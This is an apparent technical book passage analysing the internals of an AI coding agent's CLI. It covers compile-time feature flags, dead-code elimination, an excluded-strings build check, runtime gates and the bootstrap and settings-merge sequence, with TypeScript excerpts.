| `CACHED_MICROCOMPACT` | Cache-editing-based microcompact using API-reported token deletion counts (`query.ts:L423`) | Yes |
| `TOKEN_BUDGET` | Token budget tracking with auto-continuation (`query.ts:L280`) | Yes |
| `ABLATION_BASELINE` | L0 ablation baseline for harness-science experiments (`cli.tsx:L21`) | Yes |
| `COMPACTION_REMINDERS` | Inject reminders about prior context after compaction | Yes |
| `ULTRATHINK` | Extended thinking mode with larger budgets | Yes |
| `ULTRAPLAN` | Extended planning mode | Yes |
| `FORK_SUBAGENT` | Fork-based subagent spawning via `Bun.fork()` | Yes |
| `VERIFICATION_AGENT` | Post-execution verification subagent | Yes |

**Assistant and Proactive Features (KAIROS family)**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `KAIROS` | Assistant mode: proactive behavior, push notifications, file sending (`main.tsx:L80`) | Yes |
| `KAIROS_PUSH_NOTIFICATION` | Push notifications for idle task completion (`tools.ts:L46`) | Yes |
| `KAIROS_GITHUB_WEBHOOKS` | GitHub webhook integration for PR subscription (`tools.ts:L50`) | Yes |
| `KAIROS_BRIEF` | Brief/summary mode for KAIROS assistant | Yes |
| `KAIROS_CHANNELS` | Channel-based communication for KAIROS | Yes |
| `KAIROS_DREAM` | Idle-state dream/reflection mode for KAIROS | Yes |
| `PROACTIVE` | Proactive agent features including the Sleep tool (`tools.ts:L26`) | Yes |
| `AWAY_SUMMARY` | Generate summaries while user is away | Yes |

**Tools and Capabilities**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `AGENT_TRIGGERS` | Cron-based trigger scheduling: create, delete, list (`tools.ts:L29`) | Yes |
| `AGENT_TRIGGERS_REMOTE` | HTTP-triggered agent activation (`tools.ts:L36`) | Yes |
| `MONITOR_TOOL` | File and process monitoring tool (`tools.ts:L39`) | Yes |
| `CHICAGO_MCP` | Computer-use MCP server: screen capture, input control (`cli.tsx:L86`) | Yes |
| `WEB_BROWSER_TOOL` | Web browser tool for URL navigation (`tools.ts:L117`) | Yes |
| `OVERFLOW_TEST_TOOL` | Test tool for context overflow scenarios (`tools.ts:L107`) | Yes |
| `TERMINAL_PANEL` | Terminal capture and panel display tool (`tools.ts:L113`) | Yes |
| `WORKFLOW_SCRIPTS` | Workflow script definitions and execution (`tools.ts:L129`) | Yes |
| `EXPERIMENTAL_SKILL_SEARCH` | Skill discovery via search and prefetch (`query.ts:L66`) | Yes |
| `VOICE_MODE` | Voice input/output mode (`voiceModeEnabled.ts:L20`) | Yes |
| `BUDDY` | Companion sprite/mascot feature (`CompanionSprite.tsx:L168`) | Yes |
| `MCP_SKILLS` | MCP-based skill discovery and registration (`mcp/client.ts:L117`) | Yes |
| `MCP_RICH_OUTPUT` | Rich output rendering from MCP tools | Yes |

**Communication and Collaboration**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `UDS_INBOX` | Unix domain socket messaging for inter-process communication (`setup.ts:L95`) | Yes |
| `TEAMMEM` | Team memory paths for shared agent context (`setup.ts:L365`) | Yes |
| `COMMIT_ATTRIBUTION` | Commit attribution tracking (`setup.ts:L350`) | Yes |

**Build, Debug, and Telemetry**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `DUMP_SYSTEM_PROMPT` | Extract rendered system prompt for prompt sensitivity evals (`cli.tsx:L53`) | Yes |
| `ENHANCED_TELEMETRY_BETA` | Enhanced telemetry collection for internal builds | Yes |
| `COWORKER_TYPE_TELEMETRY` | Telemetry for coworker type classification | Yes |
| `MEMORY_SHAPE_TELEMETRY` | Telemetry for memory shape analysis | Yes |
| `SHOT_STATS` | Per-shot statistics collection | Yes |
| `PERFETTO_TRACING` | Perfetto trace export for performance analysis | Yes |
| `SLOW_OPERATION_LOGGING` | Log operations that exceed latency thresholds | Yes |
| `BREAK_CACHE_COMMAND` | Force cache break for debugging prompt caching | Yes |
| `PROMPT_CACHE_BREAK_DETECTION` | Detect and report prompt cache breaks | Yes |

**UI and Experience**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `HISTORY_PICKER` | Session history picker UI | Yes |
| `MESSAGE_ACTIONS` | Message action buttons in the UI | Yes |
| `STREAMLINED_OUTPUT` | Streamlined output formatting | Yes |
| `QUICK_SEARCH` | Quick-search command palette | Yes |
| `AUTO_THEME` | Automatic theme detection | Yes |
| `NATIVE_CLIPBOARD_IMAGE` | Native clipboard image paste support | Yes |
| `NEW_INIT` | Redesigned `claude init` flow | Yes |

**Security and Policy**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `NATIVE_CLIENT_ATTESTATION` | Hardware-backed client attestation | Yes |
| `ANTI_DISTILLATION_CC` | Anti-distillation measures for model output | Yes |
| `TRANSCRIPT_CLASSIFIER` | Transcript classification for auto-mode state (`main.tsx:L171`) | Yes |
| `BASH_CLASSIFIER` | Bash command classification for permission decisions | Yes |
| `POWERSHELL_AUTO_MODE` | Auto-mode for PowerShell commands | Yes |
| `HARD_FAIL` | Hard failure mode for strict error handling | Yes |
| `UNATTENDED_RETRY` | Automatic retry in unattended/headless sessions | Yes |

**Miscellaneous**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `CONNECTOR_TEXT` | Summarize connector text beta header (`betas.ts:L23`) | Yes |
| `TORCH` | Torch integration | Yes |
| `IS_LIBC_GLIBC` | Build-time libc variant detection (glibc) | Build |
| `IS_LIBC_MUSL` | Build-time libc variant detection (musl) | Build |
| `ALLOW_TEST_VERSIONS` | Allow pre-release test versions | Yes |
| `BUILDING_CLAUDE_APPS` | Claude API app building mode | Yes |
| `BUILTIN_EXPLORE_PLAN_AGENTS` | Built-in explore/plan agent definitions | Yes |
| `AGENT_MEMORY_SNAPSHOT` | Snapshot agent memory state | Yes |
| `EXTRACT_MEMORIES` | Extract memories from conversation history | Yes |
| `FILE_PERSISTENCE` | File persistence across sessions | Yes |
| `HOOK_PROMPTS` | Hook-injected prompt segments | Yes |
| `REVIEW_ARTIFACT` | Review artifact generation | Yes |
| `RUN_SKILL_GENERATOR` | Skill generator execution | Yes |
| `SKILL_IMPROVEMENT` | Skill improvement/optimization | Yes |
| `TREE_SITTER_BASH` | Tree-sitter-based bash parsing for permission analysis | Yes |
| `TREE_SITTER_BASH_SHADOW` | Shadow mode for tree-sitter bash parser (compare against existing) | Yes |
| `UPLOAD_USER_SETTINGS` | Upload user settings to server | Yes |
| `DOWNLOAD_USER_SETTINGS` | Download user settings from server | Yes |

Two flags (`IS_LIBC_GLIBC`, `IS_LIBC_MUSL`) are not ant/external toggles but build-environment markers that the bundler uses to select the correct native binary for the target platform's C library. Every other flag is ant-only, meaning the guarded code is eliminated from the external build.

A second gating mechanism coexists with `feature()`: the `process.env.USER_TYPE === 'ant'` runtime check. In `src/tools.ts:L17-L24`, `REPLTool` and `SuggestBackgroundPRTool` use this pattern instead of `feature()`. The distinction is that `USER_TYPE` is set as an environment variable at build time, and Bun's bundler evaluates it as a constant expression during bundling -- producing the same DCE effect as `feature()`, but through environment substitution rather than the `bun:bundle` feature flag API. Both mechanisms result in dead code elimination, but `feature()` is the preferred pattern for new code because it is explicit about its compile-time semantics and does not depend on environment variable naming conventions.

### DCE in the Tool Registry and the Query Loop

The tool registry in `src/tools.ts` is the most consequential DCE target in the codebase, because it determines which tools the model can see and invoke. The `getAllBaseTools()` function (`src/tools.ts:L193-L251`) returns the complete list of tools available in the current build, and feature-gated tools are conditionally included using the require-ternary pattern.

The gating follows a consistent structure. At the top of `src/tools.ts`, each feature-gated tool is imported via a ternary:

```typescript
// src/tools.ts:L25-L52 — Feature-gated tool imports
const SleepTool =
  feature('PROACTIVE') || feature('KAIROS')
    ? require('./tools/SleepTool/SleepTool.js').SleepTool
    : null
const cronTools = feature('AGENT_TRIGGERS')
  ? [
      require('./tools/ScheduleCronTool/CronCreateTool.js').CronCreateTool,
      require('./tools/ScheduleCronTool/CronDeleteTool.js').CronDeleteTool,
      require('./tools/ScheduleCronTool/CronListTool.js').CronListTool,
    ]
  : []
const MonitorTool = feature('MONITOR_TOOL')
  ? require('./tools/MonitorTool/MonitorTool.js').MonitorTool
  : null
```

Inside `getAllBaseTools()`, these variables are spread into the returned array with null guards:

```typescript
// src/tools.ts:L234-L243 — Null-guarded tool inclusion in getAllBaseTools()
...(SleepTool ? [SleepTool] : []),
...cronTools,
...(RemoteTriggerTool ? [RemoteTriggerTool] : []),
...(MonitorTool ? [MonitorTool] : []),
...(SendUserFileTool ? [SendUserFileTool] : []),
...(PushNotificationTool ? [PushNotificationTool] : []),
...(SubscribePRTool ? [SubscribePRTool] : []),
```

In the external build, `SleepTool` is `null`, so `...(null ? [null] : [])` produces an empty spread -- the tool is absent from the array. The bundler also eliminates the `require()` call that would have loaded the SleepTool module, and because no other code path imports SleepTool, the entire `src/tools/SleepTool/` directory is excluded from the external binary. The elimination is transitive: if SleepTool imported a utility module used nowhere else, that utility is also eliminated.

The external build retains a core toolset: `AgentTool`, `BashTool`, `FileReadTool`, `FileEditTool`, `FileWriteTool`, `GlobTool`, `GrepTool`, `NotebookEditTool`, `WebFetchTool`, `WebSearchTool`, `TodoWriteTool`, `SkillTool`, `AskUserQuestionTool`, `BriefTool`, and a handful of others. Over 20 additional tools exist only in the ant build, including `REPLTool`, `SleepTool`, `MonitorTool`, `WebBrowserTool`, `TerminalCaptureTool`, `SnipTool`, `WorkflowTool`, `PushNotificationTool`, `SubscribePRTool`, all three cron tools, `CtxInspectTool`, `OverflowTestTool`, `ListPeersTool`, `SendUserFileTool`, `RemoteTriggerTool`, `SuggestBackgroundPRTool`, `ConfigTool`, and `TungstenTool`.

The DCE pattern extends into the query loop at `src/query.ts`, where feature-gated compaction strategies determine how context is managed during long conversations. The top of `src/query.ts:L15-L21` imports three compaction modules conditionally:

```typescript
// src/query.ts:L15-L21 — Feature-gated compaction modules
const reactiveCompact = feature('REACTIVE_COMPACT')
  ? (require('./services/compact/reactiveCompact.js') as typeof import('./services/compact/reactiveCompact.js'))
  : null
const contextCollapse = feature('CONTEXT_COLLAPSE')
  ? (require('./services/contextCollapse/index.js') as typeof import('./services/contextCollapse/index.js'))
  : null
```

These modules are then used at multiple points in the query function body, each guarded by a `feature()` check. For example, `src/query.ts:L440-L447` applies context collapse before autocompact:

```typescript
// src/query.ts:L440-L447 — Context collapse, DCE'd from external builds
if (feature('CONTEXT_COLLAPSE') && contextCollapse) {
  const collapseResult = await contextCollapse.applyCollapsesIfNeeded(
    messagesForQuery,
    toolUseContext,
    querySource,
  )
  messagesForQuery = collapseResult.messages
}
```

The double guard (`feature() && contextCollapse`) is a belt-and-suspenders pattern. The `feature()` check enables DCE; the `contextCollapse` null check satisfies TypeScript's type narrowing. In the external build, both guards evaluate to false (the first at compile time, the second at runtime -- though the runtime check is also eliminated because the variable is provably `null`).

The `QueryEngine.ts` file demonstrates a more sophisticated DCE pattern for the snip replay callback. The `snipModule` and `snipProjection` references are feature-gated at the top of `src/QueryEngine.ts:L122-L127`, and the callback that uses them is spread into the config object using a feature-gated object spread at `src/QueryEngine.ts:L1276-L1284`:

```typescript
// src/QueryEngine.ts:L1276-L1284 — Feature-gated callback via object spread
...(feature('HISTORY_SNIP')
  ? {
      snipReplay: (yielded: Message, store: Message[]) => {
        if (!snipProjection!.isSnipBoundaryMessage(yielded))
          return undefined
        return snipModule!.snipCompactIfNeeded(store, { force: true })
      },
    }
  : {}),
```

The spread-into-object pattern ensures that when `HISTORY_SNIP` is false, the `snipReplay` property does not exist on the config object at all. This is more robust than setting it to `undefined`, because downstream code can use `'snipReplay' in config` to check for the feature. The non-null assertions (`snipProjection!.`) inside the callback are safe because the callback is unreachable in the external build -- the feature gate eliminates both the callback and the modules it references.

### The Excluded-Strings Constraint and the DCE Pipeline

The DCE system enforces a critical security invariant: string literals from internal-only code must not appear in the external binary. This is verified by a CI test that scans the external build output for forbidden strings listed in `scripts/excluded-strings.txt`. If any internal-only string -- a model codename, an internal API endpoint, a feature-specific identifier -- appears in the external binary, the CI test fails and the build is rejected.

This constraint shapes how feature-gated code is structured. The `require()` call for a feature-gated module must appear inside the ternary expression, not in a separate variable:

```typescript
// Correct: the string './coordinator/coordinatorMode.js' is inside the feature() branch
// and is eliminated from the external build
const coordinatorModeModule = feature('COORDINATOR_MODE')
  ? require('./coordinator/coordinatorMode.js')
  : null

// Incorrect: the module path string would remain in the binary even though
// the require() is never called
const modulePath = './coordinator/coordinatorMode.js'
const coordinatorModeModule = feature('COORDINATOR_MODE')
  ? require(modulePath)
  : null
```

The excluded-strings constraint also explains architectural decisions that might otherwise seem puzzling. The comment at `src/QueryEngine.ts:L163` notes that the `snipReplay` callback is injected from `ask()` rather than being defined inline in `QueryEngine`, specifically because "keeps QueryEngine free of excluded strings and testable." The snip-specific strings (`snipProjection`, `snipCompactIfNeeded`) must not appear in `QueryEngine.ts` because that file ships in both builds. The callback encapsulates the feature-gated logic and its strings inside the feature gate in `ask()`.

Similarly, `src/setup.ts:L351` uses a dynamic import to load the commit attribution module: "Dynamic import to enable dead code elimination (module contains excluded strings)." The attribution module contains internal-only strings that would trip the excluded-strings check if the module were statically imported. The dynamic import, gated behind `feature('COMMIT_ATTRIBUTION')`, ensures the module and its strings are eliminated from the external build.

The entire DCE pipeline flows through five stages:



The pipeline is unidirectional: source enters with feature gates, the bundler evaluates gates and removes unreachable code, the CI test verifies the result, and the binary ships. There is no runtime fallback -- if the excluded-strings test fails, the build is broken and must be fixed at the source level. This makes DCE a hard security boundary rather than a best-effort optimization.

### Runtime vs Compile-Time Feature Checks

Not all feature checks are compile-time. The codebase distinguishes three categories:

1. **Compile-time via `feature()`**: Evaluated by Bun's bundler, enables transitive DCE. Used for code that must not exist in the external binary at all. The 88 flags in the catalog above are all compile-time.

2. **Runtime via GrowthBook/Statsig**: Evaluated at runtime against server-side experiment configuration. Used for code that exists in both builds but is conditionally enabled for rollout, A/B testing, or kill-switch purposes. Example: `config.gates.streamingToolExecution` controls whether the `StreamingToolExecutor` is used, but the executor code ships in both builds.

3. **Environment-based via `process.env`**: The build sets an environment variable to a known value, and the code checks it. Example: `process.env.USER_TYPE === 'ant'` in `src/tools.ts:L17` gates `REPLTool`. The bundler evaluates this as a constant expression during bundling (because `USER_TYPE` is known at build time), producing DCE comparable to `feature()`.

The bridge path in `src/entrypoints/cli.tsx:L110-L112` demonstrates the interaction between compile-time and runtime checks. The source comment is explicit: "feature() must stay inline for build-time dead code elimination; isBridgeEnabled() checks the runtime GrowthBook gate." The `feature('BRIDGE_MODE')` check eliminates the entire bridge code path from the external build. Within the ant build, the `getBridgeDisabledReason()` call queries GrowthBook at runtime to determine whether the bridge feature is currently enabled for this user -- a server-side kill switch that operates within the ant-only code that survived DCE.

The `src/voice/voiceModeEnabled.ts:L16-L23` file provides the cleanest example of the layered approach:

```typescript
// src/voice/voiceModeEnabled.ts:L16-L23 — Compile-time gate + runtime kill switch
export function isVoiceGrowthBookEnabled(): boolean {
  return feature('VOICE_MODE')
    ? !getFeatureValue_CACHED_MAY_BE_STALE('tengu_amber_quartz_disabled', false)
    : false
}
```

The `feature('VOICE_MODE')` gate eliminates the function body from the external build, including the GrowthBook feature key string `'tengu_amber_quartz_disabled'`. In the ant build, the GrowthBook check provides a runtime kill switch: if the `tengu_amber_quartz_disabled` flag is flipped to `true` on the server, voice mode is disabled for all ant users without a new build. The default value `false` means a missing or stale GrowthBook cache reads as "not killed," so fresh installs get voice mode working immediately.

This layered architecture -- compile-time elimination for build-variant security, runtime gates for operational control -- provides defense in depth. An external attacker cannot discover internal features because they are physically absent. An internal operator can disable a feature without deploying a new build because the runtime gate is independent of the compile-time gate.

## Developer takeaways for building a long-running agent

The runtime is part of the harness, not just a platform for it. cc's use of Bun-specific features (feature flags, fork, embedded files) means the runtime is deeply integrated into the harness design, and when choosing a runtime, consider not just what it runs but what it enables at the architectural level. Feature flags in particular are a security boundary, not a toggle: cc uses compile-time feature elimination to strip internal-only code from the published build, a structural security measure that cannot be replicated with runtime toggles. React for the terminal is viable but expensive; the component model provides excellent composability, but the custom reconciler, screen buffer, and diff engine represent significant implementation investment, and for simpler terminal UIs a direct rendering approach may suffice. Startup time is a first-class concern for any CLI tool, and cc invests heavily in parallel prefetching, dynamic imports, and lazy loading to minimize latency. The bundled mode detection pattern (checking `Bun.embeddedFiles`) is portable to any runtime supporting compiled distributions. Co-design with the runtime creates portability constraints that should be acknowledged explicitly when the runtime provides architecturally necessary features. Terminal rendering optimization (character interning, diff-based output) is not premature but necessary for a UI that updates on every streaming token. Supply chain risk scales with runtime coupling, so vet the runtime's security posture accordingly. The TSX choice locks in the runtime, trading portability for developer experience. Frame rate tuning for terminal renderers must be budgeted early, as the update interval must be tuned for the specific workload and may need to be adaptive rather than fixed.
# Part II. Entry, Bootstrap, and the Runtime Spine

Every long-running agent has a spine: the code path that starts when the process launches, routes the user's intent into a query, sends that query to the model, receives the streamed response, and loops back for the next turn. Part II traces that spine from first instruction to final iteration.

The theme of Part II is the runtime loop -- the heartbeat of the agent. These six chapters cover the entire lifecycle of a single query iteration, from the moment the user types a command to the moment the agent decides whether to continue or stop. They are grouped together because they form a sequential pipeline: bootstrap initializes the system, the command router dispatches, the query loop orchestrates, the API layer communicates with Anthropic, the prompt assembler composes the system prompt, and the token budget enforces cost and effort constraints. Each stage depends on the one before it, and together they constitute the core engine that powers every cc session.

Understanding this pipeline is essential because it is the path that every subsequent subsystem plugs into. The tool system (Part III) is invoked from within the query loop. The permission system (Part VI) gates tool dispatches that originate in the loop. The memory system (Part V) provides context that the prompt assembler injects. If you do not understand how the query loop works, you cannot understand how any of these subsystems are triggered or how they interact.

Chapter 5 traces the bootstrap sequence from `bun run` through fast-path flags, MDM prefetch, keychain prefetch, version check, TLS, policy limits, mTLS, OAuth, and graceful shutdown registration. This chapter answers the question: what happens between the moment you type `claude` and the moment the REPL appears? The answer involves a surprisingly long sequence of side effects, each of which can fail and each of which must complete before the agent can accept its first query.

Chapter 6 deep-dives into `main.tsx`, the approximately 4,700-line command router that handles CLI subcommands, parsing, `renderAndRun`, and the bifurcation between headless and interactive modes. This is the file that ties everything together -- it imports nearly every subsystem and orchestrates the handoff from bootstrap to the running loop.

Chapter 7 provides an exhaustive walkthrough of `queryLoop()` in `src/query.ts`, covering the async generator protocol, StreamEvent versus Message types, tool dispatch points, interruption points, and how the loop bridges model streaming and tool execution. This is the single most important function in the codebase: it is the loop that runs on every turn, and understanding it is prerequisite for understanding every tool dispatch, every permission check, and every compaction event.

Chapter 8 examines the Anthropic SDK wrapper in `services/api/claude.ts`, including streaming, fallback model selection, token metering, retries, prompt cache break detection, rate limits, and usage accumulation. This chapter covers the interface between cc and the model provider -- the layer that translates cc's query into an API request and streams the response back.

Chapter 9 covers `src/constants/prompts.ts` and how cc composes the final system prompt per query from base, environment, tools, skills, memories, hooks, effort, and plan mode fragments. The system prompt is the single most important input to the model, and understanding how it is assembled from dozens of fragments is essential for understanding how cc controls the model's behavior.

Chapter 10 explains how cc tracks and bounds token consumption, how effort levels select model and thinking configurations, and how fast mode alters the loop behavior. Token budgets are the financial and computational constraint that shapes every aspect of the agent's behavior, from model selection to compaction triggers.

By the end of this Part, you should understand how a cc process starts, how a user command becomes a model query, how the streamed response is processed and looped, how the API layer handles failures and metering, how the system prompt is assembled from dozens of fragments, and how token budgets and effort settings constrain the entire pipeline. This is the foundation for understanding every subsystem that follows.

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Bootstrap: From `bun run` to Running Loop

## Overview

Every invocation of cc begins the same way: the user types `claude` at a terminal, and a cascade of side effects fires before the agent ever sees its first prompt. This chapter traces that cascade from the entry point in `src/entrypoints/cli.tsx` through the initialization sequence in `src/entrypoints/init.ts`, the global state bootstrap in `src/bootstrap/state.ts`, and the settings cascade in `src/utils/settings/settings.ts`. The bootstrap path is performance-sensitive: every millisecond of startup latency is felt by the user waiting at the prompt, so the code is carefully ordered to overlap I/O, defer heavy modules, and short-circuit fast paths. HER's Session Protocol (section 10) describes an idealized ORIENT/SETUP/VERIFY sequence; cc's bootstrap is its concrete realization, with defense-in-depth security (section 12) baked into the earliest layers.

The startup path has been heavily profiled and optimized. As of the current codebase, the time from `bun run cli.tsx` to the REPL prompt appearing is approximately 300-500ms on a warm machine, with the majority of that time spent on module evaluation (~135ms for the `main.tsx` import graph) and network preconnection (~100-200ms for TCP+TLS). Every function in the init path is instrumented with `profileCheckpoint()` calls that feed into a startup profiler, enabling continuous regression monitoring. The profiler data is aggregated at shutdown and can be inspected via the `--debug` flag, giving developers a timeline of every phase from entry to first render.

## Data structures and contracts

### The global State singleton

`src/bootstrap/state.ts` defines a single `State` type and a module-scope `STATE` constant initialized by `getInitialState()`. Every field has a getter/setter pair, and no field is exported directly. This pattern gives cc a Redux-like global store without the overhead of a formal reducer dispatch. The module comment at line 31 warns: "DO NOT ADD MORE STATE HERE - BE JUDICIOUS WITH GLOBAL STATE" -- a reminder that the singleton's size directly impacts startup time (every field must be initialized) and test reset complexity.

```typescript
// src/bootstrap/state.ts:L45-L257
type State = {
  originalCwd: string
  // Stable project root - set once at startup (including by --worktree flag),
  // never updated by mid-session EnterWorktreeTool.
  // Use for project identity (history, skills, sessions) not file operations.
  projectRoot: string
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  turnHookDurationMs: number
  turnToolDurationMs: number
  turnClassifierDurationMs: number
  turnToolCount: number
  turnHookCount: number
  turnClassifierCount: number
  startTime: number
  lastInteractionTime: number
  totalLinesAdded: number
  totalLinesRemoved: number
  hasUnknownModelCost: boolean
  cwd: string
  modelUsage: { [modelName: string]: ModelUsage }
  mainLoopModelOverride: ModelSetting | undefined
  initialMainLoopModel: ModelSetting
  modelStrings: ModelStrings | null
  isInteractive: boolean
  // ... 50+ more fields
  sessionId: SessionId
  parentSessionId: SessionId | undefined
  allowedSettingSources: SettingSource[]
  sessionIngressToken: string | null | undefined
  oauthTokenFromFd: string | null | undefined
  apiKeyFromFd: string | null | undefined
  // Telemetry counters
  meter: Meter | null
  sessionCounter: AttributedCounter | null
  locCounter: AttributedCounter | null
  prCounter: AttributedCounter | null
  commitCounter: AttributedCounter | null
  costCounter: AttributedCounter | null
  tokenCounter: AttributedCounter | null
  codeEditToolDecisionCounter: AttributedCounter | null
  activeTimeCounter: AttributedCounter | null
}
```

The `sessionId` is generated at module load time via `randomUUID()` (`src/bootstrap/state.ts:L331`), ensuring that even if `init()` fails, the session already has a unique identity for error reporting. The `originalCwd` field is resolved through `realpathSync()` to eliminate symlink ambiguity (`src/bootstrap/state.ts:L264-L276`), and normalized to NFC form for cross-platform consistency. This normalization is critical on macOS, where the file system may return decomposed Unicode (NFD) while most tools expect precomposed (NFC) forms; failing to normalize can cause path mismatches in tool execution and session storage.

The `projectRoot` field is distinct from `originalCwd`: it is set once at startup (including by the `--worktree` flag) and never updated by mid-session `EnterWorktreeTool`. This stability is important for project identity -- skills, history, and sessions are anchored to `projectRoot`, not to the transient working directory. When a user enters a worktree mid-session, `cwd` updates to the worktree path for file operations, but `projectRoot` remains at the original project root so that session history and skills are not split across worktree-specific directories.

The `allowedSettingSources` array defaults to all five sources (`src/bootstrap/state.ts:L313-L319`): `userSettings`, `projectSettings`, `localSettings`, `flagSettings`, `policySettings`. The `--setting-sources` CLI flag can selectively disable sources, which is useful for testing and for environments where certain configuration layers should be ignored.

### Settings cascade and merge contract

The settings system in `src/utils/settings/settings.ts` merges configuration from multiple sources in priority order. The `loadSettingsFromDisk()` function (`src/utils/settings/settings.ts:L645-L796`) iterates over `getEnabledSettingSources()` and deep-merges using lodash `mergeWith` with a custom array-concatenation strategy:

```typescript
// src/utils/settings/settings.ts:L538-L547
export function settingsMergeCustomizer(
  objValue: unknown,
  srcValue: unknown,
): unknown {
  if (Array.isArray(objValue) && Array.isArray(srcValue)) {
    return mergeArrays(objValue, srcValue)
  }
  // Return undefined to let lodash handle default merge behavior
  return undefined
}
```

Arrays are concatenated and deduplicated; all other values use default deep merge. This means that if user settings define `permissions.allow: ["Bash(npm test)"]` and project settings define `permissions.allow: ["Bash(git push)"]`, the effective setting is `["Bash(npm test)", "Bash(git push)"]`. This concat-and-dedup behavior is deliberate: permission lists from different sources are additive, and deduplication prevents the same rule from appearing twice when a user and project both specify the same allow rule.

For policy settings specifically, the system uses a "first source wins" strategy rather than merge: remote managed settings take precedence over MDM/plist, which takes precedence over file-based managed settings, which takes precedence over HKCU (`src/utils/settings/settings.ts:L323-L345`). This is a security decision: policy settings are meant to be authoritative and non-overrideable, so merging would allow lower-priority sources to dilute the policy. If a remote managed setting disables a tool, a local HKCU entry must not re-enable it.

### Managed settings drop-in convention

The `loadManagedFileSettings()` function (`src/utils/settings/settings.ts:L74-L121`) implements a systemd/sudoers drop-in convention for managed settings. The base file `managed-settings.json` is loaded first, then all `*.json` files in the `managed-settings.d/` directory are loaded in alphabetical order and merged on top. This allows separate teams to ship independent policy fragments (e.g., `10-otel.json`, `20-security.json`) without coordinating edits to a single admin-owned file.

```typescript
// src/utils/settings/settings.ts:L93-L112
    const entries = getFsImplementation()
      .readdirSync(dropInDir)
      .filter(
        d =>
          (d.isFile() || d.isSymbolicLink()) &&
          d.name.endsWith('.json') &&
          !d.name.startsWith('.'),
      )
      .map(d => d.name)
      .sort()
    for (const name of entries) {
      const { settings, errors: fileErrors } = parseSettingsFile(
        join(dropInDir, name),
      )
      errors.push(...fileErrors)
      if (settings && Object.keys(settings).length > 0) {
        merged = mergeWith(merged, settings, settingsMergeCustomizer)
        found = true
      }
    }
```

The alphabetical sort ensures deterministic merge order. The `!d.name.startsWith('.')` filter excludes dotfiles (which are typically editor swap files or macOS `.DS_Store` artifacts), preventing them from being parsed as JSON. Symlinks are included because some deployment systems install policy fragments as symlinks into a shared configuration repository.

## Control flow

### cli.tsx: the fast-path dispatcher

The entry point `src/entrypoints/cli.tsx` does almost no work itself. Its `main()` function (`src/entrypoints/cli.tsx:L33-L299`) is a chain of `if` checks that short-circuit into specialized handlers. The design principle is: avoid loading modules until you know you need them. This is not premature optimization -- it is a fundamental architectural decision that keeps the `--version` path under 10ms.

```typescript
// src/entrypoints/cli.tsx:L33-L42
async function main(): Promise<void> {
  const args = process.argv.slice(2);

  // Fast-path for --version/-v: zero module loading needed
  if (args.length === 1 && (args[0] === '--version' || args[0] === '-v' || args[0] === '-V')) {
    // MACRO.VERSION is inlined at build time
    // biome-ignore lint/suspicious/noConsole:: intentional console output
    console.log(`${MACRO.VERSION} (Claude Code)`);
    return;
  }
```

The `MACRO.VERSION` constant is inlined at build time by Bun's bundler, so the `--version` path loads zero modules. After the version check, the function loads the startup profiler and then checks for over a dozen specialized modes: `--dump-system-prompt`, `--claude-in-chrome-mcp`, `--daemon-worker`, `remote-control`, `daemon`, background sessions (`ps`/`logs`/`attach`/`kill`), template jobs, environment runners, self-hosted runners, and worktree+tmux fast paths.

Each check uses `feature()` gates from `bun:bundle` for build-time dead code elimination, ensuring that external builds never contain code for internal-only features like `DUMP_SYSTEM_PROMPT` or `DAEMON`. The `feature()` call must stay inline (not extracted to a helper) so the bundler can evaluate it statically and strip unreachable branches from the output bundle. When `feature('DUMP_SYSTEM_PROMPT')` returns false at build time, the entire `if` block and its dynamic imports are eliminated, reducing the external bundle size by the sum of all gated modules.

If no fast path matches, the function loads `startCapturingEarlyInput()` to buffer terminal input while the main module loads, then dynamically imports `src/main.tsx` (`src/entrypoints/cli.tsx:L289-L298`). The early input buffer ensures that if the user starts typing before the REPL is fully loaded, their keystrokes are not lost. The buffer is flushed into the REPL's input handler once the Ink rendering pipeline is ready, providing a seamless typing experience even on slow machines.

### init.ts: the initialization waterfall

The `init()` function in `src/entrypoints/init.ts` is memoized (`src/entrypoints/init.ts:L57`), ensuring it runs exactly once even if called from multiple entry points. The top of the function immediately instruments the profiler and begins the configuration cascade:

```typescript
// src/entrypoints/init.ts:L57-L79
export const init = memoize(async (): Promise<void> => {
  const initStartTime = Date.now()
  logForDiagnosticsNoPII('info', 'init_started')
  profileCheckpoint('init_function_start')

  try {
    const configsStart = Date.now()
    enableConfigs()
    logForDiagnosticsNoPII('info', 'init_configs_enabled', {
      duration_ms: Date.now() - configsStart,
    })
    profileCheckpoint('init_configs_enabled')

    // Apply only safe environment variables before trust dialog
    // Full environment variables are applied after trust is established
    const envVarsStart = Date.now()
    applySafeConfigEnvironmentVariables()

    // Apply NODE_EXTRA_CA_CERTS from settings.json to process.env early,
    // before any TLS connections. Bun caches the TLS cert store at boot
    // via BoringSSL, so this must happen before the first TLS handshake.
    applyExtraCACertsFromConfig()
```

After configuration, `init()` proceeds through these phases:

